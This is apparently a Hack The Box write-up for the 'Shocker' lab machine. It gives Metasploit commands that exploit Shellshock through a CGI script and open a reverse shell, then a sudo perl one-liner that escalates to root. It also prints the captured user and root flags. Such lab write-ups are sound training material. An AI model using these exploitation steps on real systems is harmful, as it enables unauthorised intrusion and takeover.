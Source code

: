 # HTB: Shocker

## Engagement Overview

**Target:** Shocker
**Box IP:** 10.10.10.56
**Date:** 2025-07-08
**Difficulty:** Easy

---

### Objectives

- Enumerate HTTP and SSH services  
- Identify and exploit the Shellshock vulnerability  
- Escalate privileges to root  
- Capture user and root flags  

---

## Service Enumeration

```bash
nmap -sV -sC -p- 10.10.10.56
```

- **Port 80/tcp** – Apache 2.4.18 (Ubuntu)  
- **Port 2222/tcp** – OpenSSH 7.2p2 Ubuntu

### Dirsearch Results

```bash
dirsearch -u http://10.10.10.56 -e cgi,sh,pl,py
```

- `/cgi-bin/user.sh` (confirmed for Shellshock)
- Other 403 responses for `.htaccess*`, `/server-status`, etc.

---

## Methodologies

### Initial Access - Shellshock (CVE-2014-6271)

**Vulnerability Explanation:**  
Apache mod_cgi allows remote code execution via crafted HTTP headers. Exploitable through the `user.sh` script in `/cgi-bin/`.

**Exploitation Method (Metasploit):**
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 10.10.10.56
set TARGETURI /cgi-bin/user.sh
set LHOST <your-ip>
run
```

**Post-Exploitation:**  
- Shell received via Meterpreter  
- User: `shelly`

---

## Privilege Escalation

**sudo -l output:**  
```bash
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
```

**Exploitation:**
```bash
sudo perl -e 'exec "/bin/sh";'
```

- Shell escalated to root  
- `whoami` → `root`  
- `root.txt` captured

---

## House Cleaning
- Verified user and root flags
- Session closed cleanly
- No modifications left on disk

---

## Post-Exploitation

**Tools Utilized**
* `nmap`  
* `dirsearch`  
* `metasploit`  
* `LinEnum`  
* `gtofbins`  

**User Flag:**  
`084f092f15d55672beb680d9d4c00bca`  

**Root Flag:**  
`5b644f916a82afcad38cd359ec742ccc`  

---

## Key Takeaways

* **Tool Familiarity:** Improved comfort with `msfconsole`; it aligns well with your mental model.
* **Shell Handling:** Gained insight into managing reverse shells and privilege escalation using simple scripted payloads.
* **Practical Scripting Idea:** Consider writing a custom parser for `linenum.sh` output to streamline future small-box enumeration.
* **Flow Clarity:** HTB easy boxes like this are best used for muscle memory on tooling and developing clean workflows.